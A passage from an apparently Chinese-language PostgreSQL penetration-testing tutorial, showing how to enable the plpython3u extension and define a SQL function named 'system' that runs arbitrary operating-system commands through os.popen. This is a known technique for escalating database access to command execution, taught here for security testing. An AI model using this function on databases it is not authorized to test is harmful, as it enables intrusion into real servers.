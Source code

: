 安装完毕后记得注册下扩展

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```sql<br>create extension plpython3u;<br>``` |

[![](assets/1710209150-2553bea7ee726d07cda06f77e0cbda5b.png)](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/26.png)

查看是否支持 plpython3u

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```fallback<br>select * from pg_language;<br>``` |

[![](assets/1710209150-5d055e639557dfc6ff094031f254fcc5.png)](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/27.png)

创建一个 UDF 来执行我们要执行的命令

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>``` | ```sql<br>CREATE FUNCTION system (a text)<br>  RETURNS text<br>AS $$<br>  import os<br>  return os.popen(a).read()<br>$$ LANGUAGE plpython3u;<br>``` |
